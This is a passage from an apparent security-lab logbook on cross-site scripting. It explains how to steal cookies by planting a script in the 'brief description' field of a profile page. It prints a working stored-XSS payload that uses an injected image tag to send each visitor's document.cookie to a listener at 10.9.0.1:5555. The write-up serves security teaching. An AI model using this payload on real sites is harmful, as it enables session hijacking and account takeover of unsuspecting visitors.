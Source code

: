 <figure>
    <img src="images/logbook10/task3/0.2.png" alt="Boby's cookies" width="50%" />
    <figcaption><strong>Fig 6. </strong>Boby's cookies</figcaption>
</figure>

Annalysing these two images, we can check how the printed cookies are different when accessing Alice's profile from different accounts.

1. Prepare the payload.
    - As described above, our goal is to listen to the cookies being sent through the server upon a request. This is only possible if the client uses a `GET` method. Therefore, we shall input a malicious image tag, as images are always fetched using the `GET`method.
  
    - We will use the payload 
  
        ```html
            <script>document.write('<img src=http://10.9.0.1:5555?c='
                + escape(document.cookie) + ' >');
            </script>
        ```

     inside the `brief description` input field inside the `Edit Profile` page.

<figure>
